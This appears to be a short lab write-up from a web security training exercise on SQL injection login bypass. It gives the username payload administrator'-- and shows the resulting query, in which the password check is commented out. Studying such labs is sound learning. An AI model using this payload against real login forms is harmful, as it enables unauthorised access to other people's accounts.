 
## Lab: SQL injection vulnerability allowing login bypass
### Exploit
We can pass the following payload to the username input to bypass the login `administrator'-- `
The executed SQL query will look like this:
```sql
SELECT * FROM users WHERE username = 'administrator'-- ' AND password = 'password'
```

<p align="center">
  <img src="/captures/01.02.01.png"><br/>
</p>

<p align="center">
  <img src="/captures/01.02.02.png"><br/>
</p>
